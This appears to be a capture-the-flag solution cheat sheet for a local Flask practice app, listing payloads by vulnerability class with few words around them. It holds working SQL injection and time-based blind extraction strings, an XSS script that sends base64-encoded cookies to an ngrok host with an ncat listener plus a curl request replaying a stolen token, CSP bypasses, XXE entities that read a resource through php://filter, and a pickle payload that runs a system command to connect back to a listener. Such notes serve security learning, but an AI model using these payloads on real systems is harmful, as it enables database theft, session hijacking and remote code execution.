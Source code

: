 Flask
SQL
----------
' or 1=1; -- 

SQL Timing Based
--------------
https://www.youtube.com/watch?v=DYLDG_2Vs3E
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "

NoSQL Blind injection
---------------------
https://www.youtube.com/watch?v=7kmttmmlygc
https://cloud.mongodb.com/v2/601b09a6a1838475f9393a92#metrics/replicaSet/622b90aef64b734b93ba453d/explorer/CTF/users/find
Refer to script

XSS
---------
ncat -klnvp 9000
ngrok http 9000

<script>document.write('<img src="http://019b-2406-3003-2077-4ea9-e183-ea0c-8d0-92a2.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin

XSS with Content Security Policy (Low)
---------
<iframe src="http://localhost/CTF/attacker/base.html"></iframe>

XSS with Content-Security-Policy (High)
-----------------
<meta http-equiv="refresh" content="1; url=http://localhost:5000/XSS3/flag">


XXE injection
------------------------
https://www.youtube.com/watch?v=kiGoOuuXWFI

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <food>
    <name>Tonkatsu &example;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:5000/XXE/flag" >
]>
<foo>
    <name>Tonkatsu &xxe;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></foo>


XML Blind injection
----------------------------
https://www.youtube.com/watch?v=ySJwlMsFbco
Refer to script


Pickle Insecure Deserialization
---------------------------
Refer to script
ncat -klnvp 9000
curl -d "function=decode&input=b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x13ncat 127.0.0.1 9000\x94\x85\x94R\x94.'" http://127.0.0.1:5000/INSEC/





